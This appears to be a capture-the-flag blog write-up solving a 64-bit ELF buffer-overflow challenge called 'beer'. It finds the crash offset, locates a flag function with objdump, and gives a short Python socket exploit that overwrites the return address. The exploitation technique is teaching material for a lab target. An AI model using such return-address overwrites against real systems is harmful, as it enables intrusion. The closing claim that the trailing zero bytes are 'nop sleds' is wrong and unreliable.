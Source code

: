 This challenge was simple and fun as it involved overflowing beer ;)
![_config.yml]({{ site.baseurl }}/images/bofgit2.png)

As you can already guess by the looks of it, it's a buffer overflow challenge and all we have to do is overflow the stack and get our stack pointer to point to a location in a memory which we can take advantage of.
Let's quckly check if is vulnerable to the attack.
![_config.yml]({{ site.baseurl }}/images/bofgit1.png)

bingo!
We just sent random characters and we go a segmentation fault error!
So all now we have to do are these things:
1. Reverse the ELF and find something to jump upon.
2. Find it's address on stack.
3. Make a python script to pwn the challenge.
There are many ways to do this.  
We can use Ghidra to find what ELF do and what their funcions do. I will just list the functions using objdump.
```
objdump -d beer
```
In the output the function *flag* looks interesting.
![_config.yml]({{ site.baseurl }}/images/gitbof3.png)

Jot down the address of the function and now we have to make simple python script to launch the attack.
How do we create the payload(aka our strings to send in our exploit)?
1. Find the offset and note it down.
2. Use the function address which we just noted down and make the program return to it.  
To find the offset just send bunch of characters and notice at what lenth the program crashes.
Our beer program crashed when we sent more than 72 characters.
![_config.yml]({{ site.baseurl }}/images/gitbof4.png)

As we have already noticed beer is ELF 64-bit LSB executable, so we have to write the address in Little endian format "\x10\x12\x40".
Now we write the exploit.
```python
import socket
buf="A"*72 +"\x10\x12\x40"+"\x00"*5
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("172.105.53.6",32771))
    s.recv(4000)
    print s.recv(1024)
    s.send(buf+"\r\n")
    print s.recv(1024)
    print s.recv(1024)

    
except:
    print "Error try again!"
```
and it worked! The flag was returned. 
If you are wondering what heck are bunch of \x00 in the end, they are just nop sleds.



